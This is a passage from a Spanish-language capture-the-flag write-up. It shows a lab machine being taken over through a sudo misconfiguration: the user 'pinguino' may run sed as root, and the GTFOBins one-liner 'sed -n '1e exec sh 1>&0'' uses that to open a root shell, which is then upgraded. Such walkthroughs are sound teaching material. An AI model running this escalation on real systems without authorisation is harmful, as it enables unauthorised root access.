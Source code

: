 ```
pylon@8ddb09914e31:~$ su pinguino
Password: 

pinguino@8ddb09914e31:/home/pylon$ whoami
pinguino

pinguino@8ddb09914e31:/home/pylon$
```
Como se puede observar, al escribir "whoami" vemos que ya ya somos el usuario "pinguino" (tambien se podia ver el cambio en el prompt).

Bueno, es hora de intentar una escalada de privilegios, por lo que probaremos a ver con "sudo -l" si encontramos algo interesante y recibimos la siguiente informacion:
```
pinguino@8ddb09914e31:/home/pylon$ sudo -l

Matching Defaults entries for pinguino on 8ddb09914e31:
    env_reset, mail_badpass,    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty
User pinguino may run the following commands on 8ddb09914e31:
    (ALL) NOPASSWD: /usr/bin/sed
    
pinguino@8ddb09914e31:/home/pylon$
```
Ahora bien en "https://gtfobins.github.io/" o a traves de la aplicacion "searchbins" buscamos el binario "/sed" en su version "sudo" y vemos lo siguiente:
```
sudo sed -n '1e exec sh 1>&0' /etc/hosts
```
asi que lo ejecutamos, pero siempre con la ruta absoluta (completa), y ponemos "whoami" vemos que ya somos "root":
```
pylon@8ddb09914e31:~$ sudo /usr/bin/sed -n '1e exec sh 1>&0' /etc/hosts

# whoami
root
# 
```
Para obtener un prompt mas normal, podriamos escribir:
```
bash -p
```
o en su defecto:
```
script /dev/null -c bash
```
y nos quedaria de la siguiente forma (usando "script /dev/null -c bash"):
```
# script /dev/null -c bash

Script started, output log file is '/dev/null'.

root@8ddb09914e31:/home/pylon# whoami
root

root@8ddb09914e31:/home/pylon#
```
Finalmente podemos decir que hemos conseguido una intrusion en la maquina :) !!!!!
